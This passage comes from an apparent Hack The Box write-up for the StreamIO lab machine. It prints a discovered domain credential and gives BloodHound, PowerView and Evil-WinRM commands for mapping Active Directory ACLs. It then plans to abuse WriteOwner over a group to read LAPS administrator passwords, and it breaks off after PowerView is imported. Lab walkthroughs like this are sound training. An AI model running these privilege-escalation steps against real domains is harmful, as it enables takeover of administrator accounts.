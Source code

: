 and boom we got valid creds:
```
JDgodd:JDg0dd1s@d0p3cr3@t0r 
```



now let's discover the ACL using bloodhound:

We only find a valid login for SMB but fail to authenticate to any shares. We attempt to utilize BloodHound
to retrieve the ACLs within the active directory. Download the Python application, then install the
requirements and finally execute the bloodhound.py Python script to extract the ACLs of the Active
Directory.

```
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -gc dc.streamio.htb -ns 10.10.11.158 -c all
```




Now, let's start the bloodhound:

```
sudo neo4j console
```




![[Screenshot 2025-04-04 at 12.14.39 AM.png]]


And boom, this is our final path to the administrator,


We can see that the domain user JDgodd has WriteOwner over the group CORE STAFF and CORE STAFF have LAPS read ability on the domain controller, which will allow anyone in the CORE STAFF group to read the LAPS passwords for any user. To abuse this we need to add JDgodd to the CORE STAFF group and then request the LAPS password of the administrator.

Since we do not have access to the JDgodd account we need to use PowerShell to add JDgodd into the CORE STAFF group by utilizing PowerView. Download PowerView locally.


```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```



Through the Evil-WinRM session as nikk37, upload PowerView and add JDgodd to the CORE STAFF group, then verify that the user is in the group. Upload and import PowerView.ps1.

```
upload PowerView.ps1
./PowerView.ps1
```
